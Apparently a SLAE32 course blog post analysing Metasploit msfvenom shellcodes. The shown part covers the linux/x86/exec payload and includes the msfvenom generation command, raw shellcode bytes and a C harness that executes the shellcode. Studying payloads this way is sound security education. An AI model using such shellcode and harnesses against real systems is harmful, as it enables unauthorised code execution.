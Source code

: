 ```yaml
---
layout: single
title: Msfvenom shellcode analysis
date: 2018-11-29
classes: wide
header:
  teaser: /assets/images/slae32.png
categories:
  - slae
  - infosec
tags:
  - slae
  - assembly
  - encoding
---
```


This blog post provides an analysis of various common shellcodes generated by the `msfvenom` utility which is part of Metasploit.

- [# Shellcode analysis #1: linux/x86/exec](#shellcode-analysis-1-linuxx86exec)
- [Stepping through the shellcode](#stepping-through-the-shellcode)
- [# Shellcode analysis #2: linux/x86/shell_reverse_tcp](#shellcode-analysis-2-linuxx86shellreversetcp)
- [Stepping through the shellcode](#stepping-through-the-shellcode-1)
- [# Shellcode analysis #3: linux/x86/adduser](#shellcode-analysis-3-linuxx86adduser)
- [Stepping through the shellcode](#stepping-through-the-shellcode-2)

# Shellcode analysis #1: linux/x86/exec 
---------------------------------------

The `linux/x86/exec` msfvenom payload simply executes an arbitrary program configured with the `CMD` parameter.

The payload for this analysis was generated as follows:

```
slemire@slae:~/slae32/assignment5/1_exec$ msfvenom -p linux/x86/exec -f c -o exec_shellcode CMD=/usr/bin/id                              
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 47 bytes
Final size of c file: 224 bytes
Saved as: exec_shellcode
```

Next, it was added to the skeleton test C program that was used for the other assignments.

```c
#include <stdio.h>

char shellcode[] = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0c\x00\x00\x00\x2f"
"\x75\x73\x72\x2f\x62\x69\x6e\x2f\x69\x64\x00\x57\x53\x89\xe1"
"\xcd\x80";

int main()
{
    int (*ret)() = (int(*)())shellcode;
    printf("Size: %d bytes.\n", sizeof(shellcode));
    ret();
}
```
